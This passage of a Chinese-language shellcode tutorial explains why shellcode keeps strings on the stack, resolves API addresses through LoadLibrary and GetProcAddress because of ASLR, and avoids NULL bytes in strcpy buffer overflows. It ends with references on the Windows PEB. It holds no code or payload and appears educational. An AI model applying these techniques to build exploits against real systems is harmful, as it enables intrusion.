	* 即使你在C/C++代码中定义一个全局变量，一个取值为“Hello world”的字符串，或直接把该字符串作为参数传递给某个函数。但是，编译器会把字符串放置在一个特定的Section中（如.rdata或.data）。由于需要与位置无关的代码，我们想把字符串作为代码的一部分，因此必须把字符串存储在栈上
	2. 不能确定函数的地址（如printf）
	* 在C/C++中，调用某个函数非常简单。我们利用“#include<>”指定某个头文件，然后通过名称来调用某个函数。编译器和链接器会在背后帮你解决这个问题：解析函数的地址（例如，来自user32.dll的MessageBox函数），然后我们就可以轻而易举地通过名称调用函数。
	* 在shellcode中，我们却不能以逸待劳了。因为我们无法确定包含所需函数的DLL文件是否已经加载到内存。受ASLR（地址空间布局随机化）机制的影响，系统不会每次都把DLL文件加载到相同地址上。而且，DLL文件可能随着Windows每次新发布的更新而发生变化，所以我们不能依赖DLL文件中某个特定的偏移。
	* 我们需要把DLL文件加载到内存，然后直接通过shellcode查找所需要的函数。幸运的是，Windows API为我们提供了两个函数：`LoadLibrary`和`GetProcAddress`。我们可以使用这两个函数来查找函数的地址。
	3. 必须避免一些特定字符（如NULL字节）
	* 空字节（NULL）的取值为：0×00。在C/C++代码中，空字节被认为是字符串的结束符。正因如此，shellcode存在空字节可能会扰乱目标应用程序的功能，而我们的shellcode也可能无法正确地复制到内存中。虽然不是强制的，但类似利用strcpy()函数触发缓冲区溢出的漏洞是非常常见的情况。该函数会逐字节拷贝字符串，直至遇到空字节。因此，如果shellcode包含空字节，strcpy函数便会在空字节处终止拷贝操作，引发栈上的shellcode不完整，shellcode当然也不会正常的运行。
关于上述的每个问题，让我们进行一个简短的讨论。
## 参考资料
* [microsoft !peb](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb)
* [PEB结构学习](https://www.cnblogs.com/binlmmhc/p/6501545.html)
* [microsoft PEB structure](https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb)
* [Process_Environment_Block](https://en.wikipedia.org/wiki/Process_Environment_Block)
* [MessageBox()--shellcode(二)](https://blog.csdn.net/weixin_43901038/article/details/104381090)
